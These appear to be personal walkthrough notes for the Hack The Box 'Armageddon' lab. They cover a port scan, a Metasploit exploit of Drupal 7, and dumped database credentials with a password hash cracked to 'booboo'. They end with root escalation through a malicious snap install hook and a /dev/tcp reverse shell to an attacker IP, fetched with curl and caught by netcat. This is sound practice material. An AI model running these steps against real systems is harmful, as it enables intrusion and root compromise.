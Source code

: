 # nmap
<pre>
# Nmap 7.91 scan initiated Sun Jun  6 09:29:41 2021 as: nmap -sC -sV -A -p- -vv --open -oA nmap/10.10.10.233-Armageddon 10.10.10.233
Nmap scan report for armageddon.htb (10.10.10.233)
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-06-06 09:29:41 SAST for 95s
Not shown: 65115 closed ports, 418 filtered ports
Reason: 65115 conn-refused and 418 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON  VERSION
<span style="background-color:yellow; color:000;font-weight:bold"> 22/tcp open  ssh</span>     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC2xdFP3J4cpINVArODYtbhv+uQNECQHDkzTeWL+4aLgKcJuIoA8dQdVuP2UaLUJ0XtbyuabPEBzJl3IHg3vztFZ8UEcS94KuWP09ghv6fhc7JbFYONVJTYLiEPD8nrS/V2EPEQJ2ubNXcZAR76X9SZqt11JTyQH/s6tPH+m3m/84NUU8PNb/dyhrFpCUmZzzJQ1zCDStLXJnCAOE7EfW2wNm1CBPCXn1wNvO3SKwokCm4GoMKHSM9rNb9FjGLIY0nq+8mt7RTJZ+WLdHsje3AkBk1yooGFF+0TdOj42YK2OtAKDQBWnBm1nqLQsmm/Va9T2bPYLLK5aUd4/578u7h
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4kP4gQ5Th3eu3vz/kPWwlUCm+6BSM6M3Y43IuYVo3ppmJG+wKiabo/gVYLOwzG7js497Vr7eGIgsjUtbIGUrY=
|   256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG9ZlC3EA13xZbzvvdjZRWhnu9clFOUe7irG8kT0oR4A
<span style="background-color:yellow; color:000;font-weight:bold"> 80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)</span>
|_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
|_<span style="background-color:yellow; color:000;font-weight:bold">http-generator: <span style="background-color:red; color:fff;font-weight:bold">Drupal 7</span> (http://drupal.org)</span>
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  6 09:31:16 2021 -- 1 IP address (1 host up) scanned in 95.15 seconds
</pre>
- drupal site version 7, possible vulnerable version as drupal is teasing version 9 at this time

# web page

![](Armageddon-HTB-01.png)



![](Armageddon-HTB-02.png)

- site is a built on drupal
- theme consistent with drupal theme
- file and folder structure from robots.txt consistent with drupal site
- drupal confirmed on [[HTB-Live/10.10.10.233-armageddon/10 - nmap]] nmap

# user
![](Armageddon-HTB-03.png)

- searchsploit suggests a specific Metasploit exploit

![](Armageddon-HTB-04.gif)

- Metasploit establishes a session

![](Armageddon-HTB-05.png)

- Stabilizing shell <span style="background-color:red;color:fff;font-weight:bold;">fails</span>

![](Armageddon-HTB-06.gif)


````php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
````
- enumeration drupal site database connection settings reveals database credentials

![](Armageddon-HTB-07.gif)

- credentials were use to retrieve a hash
````
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
````

![](Armageddon-HTB-08.gif)


````bash
john thehash --show
?:booboo

1 password hash cracked, 0 left
````

- the password matching the hash was in the wordilst *rockyou.txt* (````booboo````)

![](Armageddon-HTB-09.png)


- The only account on the machine that has access to an interactive shell is ``brucetherealadmin``

![](Armageddon-HTB-10.png)

- credendtials ````brucetherealadmin:booboo```` are able to login

# root

![](Armageddon-HTB-11.png)

- brucetherealadmin can run the following command as root
````bash
/usr/bin/span install *
````

![](Armageddon-HTB-13.gif)

```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

```
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

- all that is needed is for a means to run a command within the context of the above command (as root). GTFObins has the required remedy. 
- what is required is to embed a command with the FPM package manager then we can run a shell command as root.

![](Armageddon-HTB-13.png)

- first the package manager FPM needs to be installed

````bash
echo 'bash -i >& /dev/tcp/10.10.14.3/9001' 0>&1 > callhome.sh
chmod +x callhome.sh
````

- create the callhome.sh script on victim machine as above

````bash
COMMAND='bash -c /home/brucetherealadmin/callhome.sh'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
````

- on the attacking machine (Kali Box), prepare the payload by copying and pasting the script as above.

````bash
sudo python3 -m http.server 80
````

- from the temp folder where the payload is generated, run the python web server as above; so that the payload may be downloaded to the victim machine.

````bash
curl http://10.10.14.3/xxxx_1.0_all.snap --output sxxxx_1.0_all.snap
````

- since there isn't wget on the victim machine, use curl to download the payload as shown above.

````bash
nc -nvlp 9001
````

- run the listener as above

````bash
sudo /usr/bin/snap install sxxxx_1.0_all.snap --dangerous --devmode
````

- finaly run the snap command to load the payload as above
- or watch the animated gif below


![](Armageddon-HTB-14.gif)